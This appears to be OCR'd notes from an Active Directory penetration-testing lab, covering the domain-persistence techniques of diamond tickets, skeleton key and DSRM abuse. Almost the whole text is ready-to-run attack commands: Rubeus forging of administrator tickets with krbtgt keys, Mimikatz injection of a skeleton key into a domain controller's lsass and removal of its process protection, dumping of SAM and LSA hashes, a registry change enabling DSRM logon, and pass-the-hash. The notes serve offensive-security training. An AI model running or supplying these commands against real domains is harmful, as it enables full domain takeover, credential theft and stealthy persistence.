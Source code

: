 Well, we would still need krbtgt AES keys. The use the following Rubeus command to create a Diamond Ticket (note that RC4 or AES keys of the user can be used too)
Rubeus.exe diamond /krbkey:KEY /user:studentX /password:PASSWORD /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
We could also use /tgtdeleg options in place of credentials in case we have access as a domain user -
Rubeus.exe diamond /krbkey:KEY /tgtdeleg /enctype:aes  /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe  /show /ptt
Skeleton Key - (Not recommended using in a actual assessment)
Skeleton key is persistence technique where it is possible to patch a Domain Controller (lsass process) so that allows access as any user with a single password.
All publicaly available methods are NOT persistent across reboots.
Use the below command to inject a skeleton key (password would be mimikatz) on a Domain Controller of choice. DA privileges required -->
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dcorp-dc.dollarcorp.moneycorp.local
--> Now, it is possible to access any machine with a valid username and password as "mimikatz"
Enter-PSSession -Computername dcorp-dc -credential dcorp\Administrator
NOTE - that Skeleton Key is not opsec safe and is also known to cause issues with AD CS.
In case lsass is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver (mimidriv.sys) on disk of the target DC -
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
Note that above would be very noisy in logs - Service installation (Kernel mode driver)
DSRM - (with the longest shelf life)
DSRM is Directory Services Restore Mode.
There is a local administrator on every DC called "Administrator" whose password is the DSRM password.
DSRM password (SafeModePassword) is required when a server is promoted to Domain Controller and it is rarely changed.
After altering the configuration on the DC, it is possible to pass the NTLM hash of this user to access the DC.

Dump DSRM password (needs DA privs)
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername dcorp-dc
Compare the Administrator hash with the Administrator hash of below command
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
First one is the DSRM local Administrator
Since it is the local administrator of the DC, we can pass the hash to authenticate.
But, the Logon Behavior for the DSRM account needs to be changed before we can use its hash.
Enter-PSSession -Computername dcorp-dc New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
FINALLY -
Use below command to pass the hash
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:HASH /run:powershell.exe"'
